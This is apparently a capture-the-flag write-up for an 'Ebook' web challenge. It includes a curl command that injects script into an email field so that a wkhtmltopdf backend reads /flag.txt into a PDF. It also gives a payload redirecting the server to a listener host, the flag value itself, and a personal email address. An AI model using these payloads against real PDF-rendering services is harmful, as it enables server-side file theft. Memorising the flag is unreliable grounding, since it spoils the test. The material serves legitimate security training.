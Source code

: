 # Ebook

Description: Do you like reading? Check out this website to get a preview of some great books.

# Solution

If the below command does not work you might need to update the cookie with a valid one create a user and login

```bash
curl 'http://localhost:5000/order/1' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: ebook=eyJpZCI6MX0.YXmnrw.hjhKtxLI7SLBTElSlCbJp7XVLDw' \
  --data-raw '{"email":["ignacio.dominguez95@gmail.com","<script>x=new XMLHttpRequest;x.onload=function(){document.body.appendChild(document.createTextNode(this.responseText))};x.open(\"GET\",\"file:///flag.txt\");x.send();</script>"]}'
```

# Flag

flag{1bf6c08dfe83a9d42e77c6915b0260f5}

# Testing Comments

This took me a couple hours to work through and was a fun experience. The fact that it's a blackbox challenge that requires you to figure out what's going on with the backend by poking around is nice as well.

There seems to be a logical sequence to the solution. The ebook service allows you to send a PDF to a user supplied email. The service actually sends this email along with the PDF attached. Looking inside the PDF, you can see that your email address (and anything else that you send along in the "email" field to the endpoint) is embedded within the PDF.

This functionality leads you to explore possible XSS payloads to see if any of them are potentially triggered on the backend. Setting up a listener and using something as simple as `<script>window.location='http://172.17.0.1:9999'</script>` allows you to get a request initiated by the server. By inspecting the `User-Agent` header of this request you can see that the PDF is generated by `wkhtmltopdf`.

Searching for `wkhtmltopdf` exploits will lead you to a [file inclusion vulnerability](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/) that can be use an iframe to embed the flag (found at `/flag.txt`) within a PDF that is then emailed to you. Based on the provided solution above, it looks like you could use the XSS functionality to just directly send the flag to yourself as well.
